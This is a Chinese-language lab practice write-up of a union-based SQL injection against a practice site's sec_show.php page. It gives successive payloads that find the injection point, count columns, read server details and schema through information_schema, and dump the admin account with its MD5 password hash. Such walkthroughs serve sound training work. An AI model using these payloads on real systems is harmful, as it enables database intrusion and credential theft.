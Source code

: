 内网靶场练习：

构造 “http://..30.11:90/sec_show.php?cid=1&aid=1 ”判断注入点 id=-1 报错，有注入 构造“http://..30.11:90/sec_show.php?cid=1&aid=1 order by 21 ” order by 猜字段，一个个试出来，order by 22 报错 order by 21成功 共有21个字段 http://..30.11:90/sec_show.php?cid=1&aid=-1 union select 1,2,@@hostname,version(),5,user(),7,8,9,10,11,12,13,14,15,16,17,18,19,20 查看目标电脑用户名:@@hostname SQLInjection1 查看版本:version() 5.6.12-log 查询当前用户:user() root@127.0.0.1 数据库：database() sqlinj_1

" cid=1&aid=-1 union select 1,2,3,4,5,@@datadir,7,8,9,10,11,12,13,14,15,16,17,18,19,20 -- " 查看当前目录:@@datadir c:\wamp\bin\mysql\mysql5.6.12\data\

构造“cid=1&aid=-1%20union%20select%201,2,3,4,5,group_concat(schema_name),7,8,9,10,11,12,13,14,15,16,17,18,19,20%20from%20information_schema.schemata” 发现页面上出现3 4 6 字段，说明这三处都可以进行注入：

通过注入查看sqlinj_1库里面的表 cid=1&aid=-1%20union%20select%201,2,3,table_name,5,table_schema,7,8,9,10,11,12,13,14,15,16,17,18,19,20 from information_schema.tables where table_schema='sqlinj_1'-- 调用上面查询出sqlinj_1数据库查出库中wit_admin表

查看users表里面的列: "cid=1&aid=-1%20union%20select%201,2,3,table_name,5,column_name,7,8,9,10,11,12,13,14,15,16,17,18,19,20 from information_schema.columns where table_schema='sqlinj_1' and table_name='wit_admin' --" 获取列名为adm_id

盲猜字段 adm_admin adm_pass cid=1&aid=-1%20union%20select%201,2,3,adm_user,5,adm_pass,7,8,9,10,11,12,13,14,15,16,17,18,19,20%20from%20sqlinj_1.wit_admin --

账号：admin 密码：e10adc3949ba59abbe56e057f20f883e ----md5----> 123456
